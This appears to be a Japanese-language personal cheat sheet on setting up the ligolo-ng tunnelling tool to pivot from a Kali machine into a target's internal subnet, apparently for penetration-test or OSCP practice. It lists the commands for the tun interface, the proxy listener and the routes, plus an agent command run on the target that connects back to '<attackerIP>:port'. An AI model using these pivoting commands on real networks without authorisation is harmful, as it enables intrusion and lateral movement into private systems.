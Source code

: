 # ligolo

[ligoloの使い方、参考ページ](https://systemweakness.com/everything-about-pivoting-oscp-active-directory-lateral-movement-6ed34faa08a2)

- agentとproxyというバイナリをそれぞれ/usr/bin/に置いたので、agentのバイナリをまずはターゲット上に置く必要がある。また、ターゲットOSによってバイナリを変える必要があるので、都度githubから引っ張ってくる必要がある。
  
[ソースはここから](https://github.com/nicocha30/ligolo-ng/releases)

## コマンド集

0. ダウンロードしてきたファイルを解凍する。
```
sudo tar -xzvf <target_file>
```

1. tunをセットする。
```
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

2. リバースプロキシを立ち上げる。ポーとは9001で待ち受けておく。
```
proxy -selfcert -laddr 0.0.0.0:9001
```

3. 利用できるインターフェースを一覧表示する。
```
session
ifconfig
```

4. 10.10.127.0/24サブネット宛ての全てのパケットを、ligolo tunインターフェースを介して送信するようにKali上で設定する。(これ自体はligoloのコマンドではなくKali上での設定)
```
sudo ip route add 10.10.127.0/24 dev ligolo
```
5. 上記までの手順を行った後に、セッションをスタートする。これでtargetサブネット上の内部ネットワークと、Kali上から直接やり取りができるようになる。
```
session
start
```

6. ローカルポートフォワーディングするための設定。
```
sudo ip route add 240.0.0.1/32 dev ligolo
```

### Agent側
1. 
```
./agent.exe -connect <attackerIP>:port -ignore-cert
```